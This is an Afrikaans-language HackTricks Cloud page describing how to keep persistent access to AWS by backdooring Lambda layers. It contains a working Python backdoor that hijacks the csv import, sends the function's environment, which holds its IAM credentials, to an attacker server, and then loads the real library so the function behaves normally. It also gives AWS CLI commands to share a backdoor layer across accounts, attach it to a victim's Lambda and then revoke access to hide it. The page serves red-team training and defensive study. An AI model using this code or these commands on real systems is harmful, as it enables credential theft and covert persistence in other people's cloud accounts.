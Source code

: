 # AWS - Lambda Lae Persistensie

{% hint style="success" %}
Leer & oefen AWS Hack: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Lambda Lae

'n Lambda-laag is 'n .zip-lêerargief wat **addisionele kode** of ander inhoud **kan bevat**. 'n Laag kan biblioteke, 'n [aangepaste uitvoertyd](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, of opsetlêers bevat.

Dit is moontlik om tot **vyf lêers per funksie** in te sluit. Wanneer jy 'n laag in 'n funksie insluit, word die **inhoud na die `/opt`-gids** in die uitvoeringsomgewing uitgepak.

Standaard is die **lêers** wat jy skep, **privaat** vir jou AWS-rekening. Jy kan kies om 'n laag met ander rekeninge te **deel** of om die laag **publiek** te **maak**. As jou funksies 'n laag verbruik wat deur 'n ander rekening gepubliseer is, kan jou funksies **voortgaan om die laagweergawe te gebruik nadat dit uitgevee is, of nadat jou toestemming om die laag te gebruik, herroep is**. Jy kan egter nie 'n nuwe funksie skep of funksies bywerk met 'n uitgevee laagweergawe nie.

Funksies wat as 'n houerbeeld ontplooi is, gebruik nie lêers nie. In plaas daarvan pak jy jou verkose uitvoertyd, biblioteke, en ander afhanklikhede in die houerbeeld in wanneer jy die beeld bou.

### Python laaipad

Die laaipad wat Python in lambda sal gebruik, is die volgende:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Kyk hoe die **tweede** en derde **posisies** deur gids waar **lambda lêers** hul lêers uitpak, ingeneem word: **`/opt/python/lib/python3.9/site-packages`** en **`/opt/python`**

{% hint style="danger" %}
As 'n aanvaller daarin slaag om 'n gebruikte lambda **laag** te **agterdeur** of een **toe te voeg** wat **willekeurige kode uitvoer wanneer 'n algemene biblioteek gelaai word**, sal hy in staat wees om skadelike kode uit te voer met elke lambda-aanroeping.
{% endhint %}

Daarom is die vereistes:

* **Kontroleer biblioteke** wat deur die slagoffers se kode **gelaai** word
* Skep 'n **proksi-biblioteek met lambda lêers** wat **aangepaste kode uitvoer** en die oorspronklike biblioteek **laai**.

### Voorafgelaai biblioteke

{% hint style="warning" %}
Toe ek hierdie tegniek misbruik het, het ek 'n probleem gevind: Sommige biblioteke is **reeds gelaai** in die python-uitvoertyd wanneer jou kode uitgevoer word. Ek het verwag om dinge soos `os` of `sys` te vind, maar selfs die `json`-biblioteek was gelaai.\
Om hierdie volhardingstegniek te misbruik, moet die kode 'n nuwe biblioteek laai wat nie gelaai is wanneer die kode uitgevoer word nie.
{% endhint %}

Met 'n python-kode soos hierdie is dit moontlik om die **lys van biblioteke wat vooraf gelaai is** binne die python-uitvoertyd in lambda te verkry:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
En hierdie is die **lys** (kontroleer dat biblioteke soos `os` of `json` reeds daar is)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
En hierdie is die lys van **biblioteke** wat **lambda standaard geïnstalleer het**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Laag Agterdeur

In hierdie voorbeeld gaan ons aanneem dat die geteikende kode die invoer van **`csv`** invoer. Ons gaan die invoer van die `csv`-biblioteek **agterdeur**.

Om dit te doen, gaan ons die **csv-gids skep** met die lêer **`__init__.py`** daarin op 'n pad wat deur lambda gelaai word: **`/opt/python/lib/python3.9/site-packages`**\
Dan, wanneer die lambda uitgevoer word en probeer om **csv** te laai, sal ons **`__init__.py`-lêer gelaai en uitgevoer word**.\
Hierdie lêer moet:

* Ons lading uitvoer
* Laai die oorspronklike csv-biblioteek

Ons kan beide doen met:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Dan, skep 'n zip met hierdie kode in die pad **`python/lib/python3.9/site-packages/__init__.py`** en voeg dit by as 'n lambda-laag.

Jy kan hierdie kode vind op [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Die geïntegreerde lading sal **die IAM-kredos na 'n bediener stuur DIE EERSTE KEER wat dit aangeroep word of NÁ 'n herstel van die lambda-houer** (verandering van kode of koue lambda), maar **ander tegnieke** soos die volgende kan ook geïntegreer word:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Eksterne Lêers

Let daarop dat dit moontlik is om **lambda-lêers van eksterne rekeninge** te gebruik. Verder kan 'n lambda 'n laag van 'n eksterne rekening gebruik selfs al het dit nie toestemmings nie.\
Let ook daarop dat die **maksimum aantal lêers wat 'n lambda kan hê 5 is**.

Daarom, ten einde die veelsydigheid van hierdie tegniek te verbeter, kan 'n aanvaller:

* 'n Bestaande laag van die gebruiker agterdeur
* **Skep** 'n **laag** in **sy rekening**, gee die **slagofferrekening toegang** om die laag te gebruik, **konfigureer** die **laag** in die slagoffers Lambda en **verwyder die toestemming**.
* Die **Lambda** sal steeds in staat wees om die laag te gebruik en die **slagoffer sal nie** 'n maklike manier hê om die kode van die lae af te laai nie (behalwe om 'n omgekeerde dop in die lambda te kry)
* Die slagoffer sal nie eksterne lêers sien wat met **`aws lambda list-layers`** gebruik word nie

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
